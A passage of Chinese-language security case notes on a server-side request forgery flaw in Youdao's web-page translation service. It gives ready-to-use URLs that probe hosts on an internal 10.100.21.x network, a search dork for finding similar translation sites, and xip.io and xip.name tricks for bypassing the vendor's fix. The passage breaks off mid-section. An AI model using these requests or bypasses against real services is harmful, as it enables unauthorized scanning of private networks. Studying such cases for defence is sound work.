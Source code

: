 - 网址：
http://fanyi.youdao.com/WebpageTranslate?keyfrom=webfanyi.top&url=10.100.21.3&type=EN2ZH_CN

- 参数：url

![title](https://leanote.com/api/file/getImage?fileId=5da2d0feab6441691e00024f)

**漏洞利用：**

探测内网，主要是 10.100.21.x 网段的主机的web服务。

探测 10.100.21.22 发现开启了 Nginx 服务：
http://fanyi.youdao.com/WebpageTranslate?keyfrom=webfanyi.top&url=http%3A%2F%2F10.100.21.22&type=EN2ZH_CN

探测 10.100.21.7 发现是一个网站：网易汽车用户中心。
http://fanyi.youdao.com/WebpageTranslate?keyfrom=webfanyi.top&url=http%3A%2F%2F10.100.21.7&type=EN2ZH_CN

**总结：**

这里的场景就属于`3. 在线翻译：给网址翻译对应网页的内容`。

提炼出 Google Hacking 语法：
``` shell
site:fanyi.*.com
```

## 7. 有道翻译SSRF修复不完整可绕过

之前 getshell1993 提过一个有道翻译的 SSRF 漏洞：

漏洞点 url：
http://fanyi.youdao.com/WebpageTranslate?keyfrom=webfanyi.top&url=http%3A%2F%2F10.100.21.7&type=EN2ZH_CN

参数：url

厂商已做修复：

![title](https://leanote.com/api/file/getImage?fileId=5da2cad4ab64416721000245)


**漏洞绕过：**

1、通过xip.io

![title](https://leanote.com/api/file/getImage?fileId=5da2cb7fab64416721000247)

在这里比如：http://10.100.21.7.xip.io

所以还有 http://foo.bar.10.100.21.7.xip.io 等。


2、 通过xip.name



![title](https://leanote.com/api/file/getImage?fileId=5da2cbe4ab6441691e000214)

